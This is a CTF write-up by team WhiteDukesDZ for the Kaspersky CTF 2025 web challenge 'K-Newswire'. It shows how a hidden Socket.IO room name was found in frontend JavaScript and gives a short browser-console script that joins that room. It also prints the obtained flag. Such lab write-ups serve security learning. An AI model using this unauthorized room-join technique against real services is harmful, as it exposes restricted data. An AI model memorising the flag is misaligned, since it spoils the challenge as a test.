




# WhiteDukesDZ - Kaspersky CTF 2025 Writeup: K-Newswire


---

## Challenge Summary

This challenge featured a straightforward web application simulating a news channel. The objective was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Application Analysis

Upon accessing the web application, we were greeted with a main page designed to resemble a news channel:



Inspecting the browser's DevTools revealed a connection to a socket origin:



This socket provided us with a session ID, automatically joined us to the public room, and began streaming news updates. The key detail was the following message for joining the public room:

```txt
["join",{"room":"public"}]
```

### Security Observations

Further inspection in DevTools uncovered a JavaScript file:



Careful analysis of this JS file revealed that the frontend is a Vite React app (as indicated by variables like `VITE_SOCKET_URL`). Most importantly, we identified the following snippet:

```js
const kh = Object.freeze({ public: "public", secret_announcements: "secret_announcements" });
```

And subsequently:

```js
{ t(!0), p.emit("join", { room: kh.public }) }
```

This explains how users are joined to the `public` room by default, and also hints at the existence of another room: `secret_announcements`.

---

## Solution

Based on our findings, we crafted the following exploit JavaScript to join the hidden `secret_announcements` room. This code can be injected directly into the browser's DevTools console:

```js
let script = document.createElement('script');
script.src = 'https://cdn.socket.io/4.7.5/socket.io.min.js';
script.onload = function() {
  const socket = io('/', { path: '/socket.io', transports: ['websocket'] });
  socket.emit('join', { room: 'secret_announcements' });
  socket.on('news', (msg) => console.log(msg));
  socket.on('news_backlog', (msg) => console.log(msg));
};
document.head.appendChild(script);
```

If successful, this script will join the `secret_announcements` room and display the flag as a news message:



Obtained flag:

```txt
kaspersky{h07_n3ws_fr0m_unl0ck3d_s3cre7_ch4nn3ls}
```
